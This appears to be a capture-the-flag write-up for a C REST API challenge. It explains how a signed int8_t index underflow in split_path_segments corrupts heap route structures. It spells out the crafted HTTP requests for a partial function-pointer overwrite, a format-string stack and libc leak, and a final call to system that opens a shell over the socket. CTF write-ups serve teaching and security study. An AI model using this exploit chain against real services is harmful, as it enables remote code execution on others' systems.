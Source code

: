 # restapi

The bug is in `split_path_segments`, where a signed `int8_t` is used as an index of a 256-element heap array.


The heap layout at start is:

```
+----------+
| buf      | <-----------------------------------------------------
+----------+ <                                                     |
| route    | <                                                     |
+----------+ <                                                     |
| route    | <                                                     |
+----------+ <                                                     |
| route    | <                                                     |
+----------+                                                       |
| segs     |  - underflow from segs reaches partway back into buf -
+----------+

```

This lets us write at offsets preceeding the segment array. The written data consists of pointers into the input buffer &buf[offset], and segment lengths.

There's plausibly some house-of-whatever you can do by overwriting heap metadata (fingers crossed I have prevented this), but the intended solution is to partially overwrite a route definition, like so:

```
struct path_segment {                       struct route {
    char *segment;    ... full overwrite ...... char *path;
    uint16_t length;  ... partial overwrite ... void *func;
};                    ... left unchanged ...... struct route *next;
                                            };
```

ASLR has 4096-byte granularity, so a 16-bit partial overwrite of a function pointer has a 1/16 chance of success.

The 16-bit value comes from the length of the path segment, so to corrupt the first route, we send something like this:

```
GET ///////////////...///////////////AAAAAAAAAAAAAAA...AAAAAAAAAAAAAAAA HTTP/1.1\n

               251 slashes                 (function % 0x10000) As   
```

When this corrupted route is being matched, the `path` pointer points into the same place in the buffer as where our `A`s were on the first request.

Thus in our second request, if we want the route to be matched, we must provide the route template at that same offset, ensuring null-termination by placing it at the end of the request:

```
GET /meow/123 HTTP/1.1\n                            /meow/$num

    ^                    ^                          ^
    |                    |                          |
    |                    |                          template which matches our url
    |                    padding equiv. to 251 slashes
    the url we access

```

This lets us call any local function (in the same 0x10000-byte area as a request handler) with controlled int and string arguments. For example, we can call `_dprintf_chk` from the PLT, and leak stack contents!

```
GET /4/0/%lu_%lu_%lu_%lu  HTTP/1.1\n                /$num/$num/$string

     ^ ^ ^                                           ^
     | | |                                           |
     | | format string                               template which matches our url
     | _chk flags=0 (no overflow check)
     fd=4
```

4 is the socket's fd, 0 is the `__dprintf_chk` flags argument requesting no overflow checks, and the 3rd argument is our format string!

This can be used to leak libc and stack pointers from the stack.

What if we want to call a function from elsewhere, like from libc? This can be accomplished by redoing the partial overwrite to target `call_func_with_args`, and supplying an arbitrary function pointer as the first argument. We use the stack leak to place additional arguments later on in the `args` array:

```
args[0]               ...1               ...2 3
     |                   |                  | |
     v                   v                  v v

GET /{libc_base+0x4e9f0}/{stack_leak-0x1b0}/1/sh>&5<&5 /$num/$num/$num/$string

     ^                   ^                  ^ ^
     |                   |                  | |
     |                   |                  | unused parameter = our shell command
     |                   |                  | 
     func = system       args = &args[3]    argc = 1
```

Note that earlier we used fd 4 for dprintf, and now we use fd 5 in our `system` call - this is because the connection socket was never closed after our earlier `dprintf` invocation, leaking an fd.

